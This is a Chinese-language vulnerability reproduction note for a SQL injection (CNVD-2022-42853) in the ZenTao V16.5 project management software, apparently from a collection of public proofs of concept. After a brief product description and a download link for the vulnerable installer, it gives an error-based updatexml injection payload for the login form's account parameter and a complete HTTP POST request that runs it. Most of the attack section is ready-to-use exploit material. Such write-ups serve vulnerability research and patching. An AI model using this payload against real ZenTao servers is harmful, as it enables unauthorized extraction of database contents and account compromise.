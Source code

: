 # 禅道 V16.5 SQL 注入 CNVD-2022-42853

# 禅道 V16.5 SQL 注入 CNVD-2022-42853

## 漏洞描述

禅道是一款专业的国产开源研发项目管理软件，集产品管理，项目管理， 质量管理，文档管理，组织管理和事务管理于一体，完整覆盖了研发项目管理的核心流程，管理思想基于国际流行的敏捷项目管理方法-Scrum，在遵循其价值观的基础上，结合国内项目研发的现状，整合了任务管理，需要管理，Bug 管理，用例管理等多种功能，覆盖软件从计划到发布的整个生命周期。

禅道 V16.5 未对输入的 account 参数内容作过滤校验，导致攻击者拼接恶意 SQL 语句执行。

## 环境搭建

下载环境：

```
https://www.zentao.net/dl/zentao/16.5/ZenTaoPMS.16.5.win64.exe
```

## 漏洞复现

报错型注入 Payload：

```
admin' and updatexml(1,concat(0x7e,(user),0x7e),1) and '1'='1  
```

poc：

```
POST /zentao/user-login.html HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

account=admin%27+and++updatexml%281%2Cconcat%280x1%2Cuser%28%29%29%2C1%29+and+%271%27%3D%271
```

